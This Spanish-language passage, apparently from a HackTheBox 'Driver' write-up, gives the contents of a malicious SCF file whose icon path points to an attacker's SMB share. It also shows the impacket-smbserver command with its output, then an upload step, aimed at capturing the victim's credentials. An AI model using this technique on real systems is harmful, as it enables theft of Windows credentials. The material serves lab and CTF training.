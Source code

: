 
<h2 id="SCF">Creando Archivo Malicioso SCF y Obteniendo Credenciales</h2>

* Copia y crea el archivo:
```bash
nano file.scf
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

* Modifica el código, poniendo tu **IP** y especificando el **servidor SMB**, recuerda que el archivo no importa que no exista:
```bash
[Shell]  
Command=2
IconFile=\\Tu_IP\smbFolder\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

* Abre el servidor **SMB** en donde tengas el archivo **SCF**:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

* Sube el archivo a la página:

<p align="center">
<img src="/assets/images/htb-writeup-driver/Captura8.png">
</p>
